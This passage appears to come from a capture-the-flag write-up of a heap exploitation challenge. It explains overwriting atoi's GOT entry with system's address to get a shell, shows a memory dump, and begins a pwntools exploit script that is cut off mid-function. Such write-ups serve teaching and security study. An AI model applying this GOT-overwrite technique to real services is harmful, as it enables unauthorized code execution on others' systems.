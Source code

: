 The function's GOT entry I chose to overwrite was _atoi_. The reason behind this is that _atoi_ receives a pointer to our input in order to convert it back to an integer. What if _atoi_ is _system_ though? What's going to happen if we provide _sh_ as an argument to what it's supposed to be _atoi_? Bingo ;)

```
0x604120:	0x0000000000000000	0x0000000000000021 <-- new player's name [old player 2]
0x604130:	0x5a5a5a5a5a5a5a5a	0x5a5a5a5a5a5a5a5a
0x604140:	0x0000000000603110	0x0000000000000091
0x604150:	0x00007ffff7dd37b8	0x00007ffff7dd37b8
0x604160:	0x4343434343434343	0x4343434343434343
0x604170:	0x4343434343434343	0x4343434343434343
0x604180:	0x4343434343434343	0x4343434343434343
0x604190:	0x4343434343434343	0x4343434343434343
0x6041a0:	0x4343434343434343	0x4343434343434343
0x6041b0:	0x4343434343434343	0x4343434343434343
0x6041c0:	0x4343434343434343	0x4343434343434343
0x6041d0:	0x0000000000000090	0x0000000000000020 <-- new allocated player
0x6041e0:	0x0000000200000001	0x0000000400000003
0x6041f0:	0x0000000000604130
```

Game over, player 2's original name pointer has been overwritten with atoi's GOT entry. Once we request to edit its name, we'll overwrite atoi's entry with system's address.

---

### _Exploit_

```python
from pwn import *

atoi_got = 0x603110

def alloc(name, attack = 1, 
		  defense = 2, speed = 3, precision = 4):

	p.recvuntil('choice: ')
	p.sendline('1')

	p.recvuntil('name: ')
	p.sendline(name)

	p.recvuntil('points: ')
	p.sendline(str(attack))

	p.recvuntil('points: ')
	p.sendline(str(defense))

	p.recvuntil('speed: ')
	p.sendline(str(speed))

	p.recvuntil('precision: ')
	p.sendline(str(precision))

	return

def edit(name):

	p.recvuntil('choice: ')
	p.sendline('4')

	p.recvuntil('choice: ')
	p.sendline('1')

```